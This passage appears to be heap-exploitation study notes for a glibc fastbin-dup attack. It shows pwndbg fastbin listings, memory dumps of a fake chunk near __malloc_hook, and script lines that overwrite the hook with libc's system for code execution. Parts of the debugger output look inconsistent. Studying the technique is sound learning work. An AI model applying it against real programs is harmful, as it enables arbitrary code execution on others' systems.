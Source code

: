 
+ Calling malloc should have now added the fake chunk to _fastbins_
```pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x7ffff7dd0b2d (_IO_wide_data_0+237) ◂— 0xfff7a9fa10000000
0x80: 0x0
```
```dq 0x7ffff7dd0b2d
                                                     v--- size of fake chunk
00007ffff7dd0b2d     fff7dccee0000000 000000000000007f

                      v---this is the address that will be stored in fastbins
00007ffff7dd0b3d     fff7a9fa10000000 fff7a9fed000007f
00007ffff7dd0b4d     000000000000007f 0000000000000000
00007ffff7dd0b5d     0000000000000000 0000000001000000
```
```pwndbg> u __malloc_hook
Invalid address 0x0
```


+ If this script ends with these 3 lines in the `Example` section
```xpl_rce_fastbin_dup.py:74/77 - Remember to refernce original python for context
malloc(0x68, "Y")
malloc(0x68, "Z")
malloc(0x68, b"Y"*19 + p64(libc.sym.system))
```
```vis
0x603000   0x0000000000000000   0x0000000000000071   ........q.......
                           v----"Z" written here
0x603010   0x00007ffff7dd0b5a   0x4141414141414141   Z.......AAAAAAAA
0x603020   0x4141414141414141   0x4141414141414141   AAAAAAAAAAAAAAAA
0x603030   0x4141414141414141   0x4141414141414141   AAAAAAAAAAAAAAAA
0x603040   0x4141414141414141   0x4141414141414141   AAAAAAAAAAAAAAAA
0x603050   0x4141414141414141   0x4141414141414141   AAAAAAAAAAAAAAAA
0x603060   0x4141414141414141   0x4141414141414141   AAAAAAAAAAAAAAAA

0x603070   0x4141414141414141   0x0000000000000071   AAAAAAAAq.......
                           v----"Y" written here
0x603080   0x0000000000603059   0x4242424242424242   Y0`.....BBBBBBBB
0x603090   0x4242424242424242   0x4242424242424242   BBBBBBBBBBBBBBBB
0x6030a0   0x4242424242424242   0x4242424242424242   BBBBBBBBBBBBBBBB
0x6030b0   0x4242424242424242   0x4242424242424242   BBBBBBBBBBBBBBBB
0x6030c0   0x4242424242424242   0x4242424242424242   BBBBBBBBBBBBBBBB
0x6030d0   0x4242424242424242   0x4242424242424242   BBBBBBBBBBBBBBBB
0x6030e0   0x4242424242424242   0x0000000000020f21   BBBBBBBB!....... <-- Top chunk
```
+ Calling malloc should have now added the fake chunk to _fastbins_
```pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0xfff7a9fa10000000
0x80: 0x0
```
+ The address should point to our fake chunk
```pwndbg> dq 0x7ffff7dd0b2d
00007ffff7dd0b2d     fff7dccee0000000 000000000000007f
00007ffff7dd0b3d     5959595959595959 5959595959595959
```